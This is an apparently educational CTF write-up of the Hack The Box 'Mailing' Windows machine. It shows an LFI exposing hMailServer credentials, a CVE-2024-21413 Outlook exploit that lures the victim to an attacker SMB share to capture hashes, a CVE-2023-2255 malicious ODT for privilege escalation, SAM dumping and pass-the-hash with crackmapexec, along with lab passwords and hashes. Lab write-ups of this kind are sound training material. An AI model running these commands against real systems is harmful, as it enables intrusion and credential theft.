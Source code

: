 ```yaml
---
description: Windows | easy | IIS server | LFI | hMailServer | CVE-2024-21413 Outlook
---
```


# Mailing



<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

On the website we can see an upload button to download pdf instruction for mail connection. with an email sent to maya@mailing.htb.



When we intercept it whith burp we can see an LFI. After looking for IIS intersting files we did check on hMailServer files to find the .ini files with Mysql credentials.





<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Lets use Hashcat to decrypt the hash :&#x20;

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

&#x20;Administrator:homenetworkingadministrator

&#x20;now that we have a password we looked for a another CVE and found CVE-2024-21413

[https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability.git](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability.git)

```bash
python3 CVE-2024-21413.py --server "10.10.11.14" --port 465 --username "Administrator@mailing.htb" --password "homenetworkingadministrator" --sender "Administrator@mailing.htb" --recipient "maya@mailing.htb" --url "
\\OURIP\message
" --subject "frfr"
```

goal is to send a mail to maya with a malicious link. when she will click on it she will contact ou smb server and we will intercept her Hash.&#x20;





evil-winrm -i 10.129.231.40 -u maya -p 'm4y4ngs4ri'



m4y4ngs4ri



after using winpeas we can see some interesting things :&#x20;

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/elweth-sec/CVE-2023-2255" %}

in order to exploit this CVE we have first to generate a malicious odt file  with our injected&#x20;

```
python3 CVE-2023-2255.py --cmd 'net localgroup Administradores maya /add' --output 'file.odt'
```

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>



crackmapexec smb 10.129.231.40 -u maya -p "m4y4ngs4ri" --sam



<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

localadmin:1001:aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae:::

crackmapexec smb 10.129.231.40 -u localadmin -H "aad3b435b51404eeaad3b435b51404ee:9aa582783780d1546d62f2d102daefae" -x "cmd.exe /c type c:\users\localadmin\Desktop\root.txt"
